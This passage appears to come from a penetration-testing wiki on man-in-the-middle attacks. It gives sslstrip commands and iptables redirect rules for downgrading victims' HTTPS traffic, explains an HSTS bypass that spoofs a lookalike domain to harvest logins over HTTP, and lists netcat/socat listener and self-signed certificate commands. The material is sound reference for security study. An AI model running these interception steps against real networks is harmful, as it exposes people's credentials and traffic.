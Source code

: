 ```bash
apt-get install sslstrip
sslstrip -w /tmp/sslstrip.log --all - l 10000 -f -k
#iptables --flush
#iptables --flush -t nat
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -A INPUT -p tcp --destination-port 10000 -j ACCEPT
```

More info [here](https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf).

### sslStrip+ and dns2proxy for bypassing HSTS

The **difference** between **sslStrip+ and dns2proxy** against **sslStrip** is that they will **redirect** for example _**www.facebook.com**_ **to** _**wwww.facebook.com**_ (note the **extra** "**w**") and will set the **address of this domain as the attacker IP**. This way, the **client** will **connect** to _**wwww.facebook.com**_ **(the attacker)** but behind the scenes **sslstrip+** will **maintain** the **real connection** via https with **www.facebook.com**.

The **goal** of this technique is to **avoid HSTS** because _**wwww**.facebook.com_ **won't** be saved in the **cache** of the browser, so the browser will be tricked to perform **facebook authentication in HTTP**.\
Note that in order to perform this attack the victim has to try to access initially to [http://www.faceook.com](http://www.faceook.com) and not https. This can be done modifying the links inside an http page.

More info [here](https://www.bettercap.org/legacy/#hsts-bypass), [here](https://www.slideshare.net/Fatuo\_\_/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and [here](https://security.stackexchange.com/questions/91092/how-does-bypassing-hsts-with-sslstrip-work-exactly).

**sslStrip or sslStrip+ doesn;t work anymore. This is because there are HSTS rules presaved in the browsers, so even if it's the first time that a user access an "important" domain he will access it via HTTPS. Also, notice that the presaved rules and other generated rules can use the flag** [**`includeSubdomains`**](https://hstspreload.appspot.com) **so the** _**wwww.facebook.com**_ **example from before won't work anymore as** _**facebook.com**_ **uses HSTS with `includeSubdomains`.**

TODO: easy-creds, evilgrade, metasploit, factory

## TCP listen in port

```bash
sudo nc -l -p 80
socat TCP4-LISTEN:80,fork,reuseaddr -
```

## TCP + SSL listen in port

#### Generate keys and self-signed certificate

```
FILENAME=server
# Generate a public/private key pair:
openssl genrsa -out $FILENAME.key 1024
# Generate a self signed certificate:
openssl req -new -key $FILENAME.key -x509 -sha256 -days 3653 -out $FILENAME.crt
# Generate the PEM file by just appending the key and certificate files:
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
```
